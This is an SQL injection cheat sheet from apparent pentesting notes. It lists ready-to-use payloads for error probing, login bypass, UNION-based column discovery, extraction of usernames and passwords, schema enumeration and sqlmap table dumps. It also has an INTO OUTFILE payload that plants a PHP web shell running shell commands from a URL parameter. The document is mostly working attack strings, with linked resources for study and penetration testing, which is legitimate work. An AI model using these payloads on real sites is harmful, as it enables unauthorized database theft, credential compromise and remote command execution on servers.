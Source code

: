 # SQL Injection

## Basic technique

Stick `'` in a parameter and see if it throws a database error (and note what kind).

Another simple test:

```
' or '1'='1
```

Other tests:

```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Retrieving Hidden Data

```
https://insecure-website.com/products?category=Gifts'--
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

## Bypassing Authentication

```
username' or 1=1;#
username'--
username' or 1=1 --
```

## Retrieving Data from Other DB Tables

[SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

When performing an SQL injection UNION attack, there are two effective methods to determine how many columns are being returned from the original query.

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4#
etc.
-----------------------------------
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.

// For Oracle
' UNION SELECT NULL FROM DUAL--
```

Having already determined the number of required columns, you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

```
' UNION SELECT username, password FROM users--
```

## Retrieving multiple values within a single column <a href="#retrieving-multiple-values-within-a-single-column" id="retrieving-multiple-values-within-a-single-column"></a>

Suppose instead that the query only returns a single column. You can easily retrieve multiple values together within this single column by concatenating the values together.

{% code title="On Oracle" %}
```
' UNION SELECT username || '~' || password FROM users--
```
{% endcode %}

## Database enumeration

[Examining the Database](https://portswigger.net/web-security/sql-injection/examining-the-database)

The exact syntax for injection will vary by database type.

Get version:

```
http://[host]/inject.php?id=1 union all select 1,2,3,@@version,5
```

Get the current user:

```
http://[host]/inject.php?id=1 union all select 1,2,3,user(),5
```

See all tables:

```
http://[host]/inject.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```

Get column names for a specified table:

```
http://[host]/inject.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```

Get usernames and passwords (0x3a means `:`):

```
http://[host]/inject.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```

You might be able to write to system files depending on permission levels using MySQL's `INTO OUTFILE` function to create a php shell in the web root:

```
http://[host]/inject.php?id=54 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUT
```

## Blind SQL injection

{% embed url="https://portswigger.net/web-security/sql-injection/blind" %}

## SQLmap

Assuming you've tested a parameter with `'` and it is injectable, run SQL map against the URL:

```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbms=mysql
```

It may not run unless you specify the database type.

Get the databases:

```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbs --dbms=mysql
```

Get the tables in a database:

```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --tables -D [database name]
```

Get the columns in a table:

```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --columns -D [database name] -T [table name]
```

Dump a table:

```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dump -D [database name] -T [table name]
```

### Passing tokens

If the URL isn't accessible, you can pass cookie data or authentication credentials to SQLmap by pasting the post request in a file and using the `-r` option:

```
sqlmap -r request.txt
```

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}

{% embed url="https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb" %}

{% embed url="https://www.binarytides.com/sqlmap-hacking-tutorial/" %}

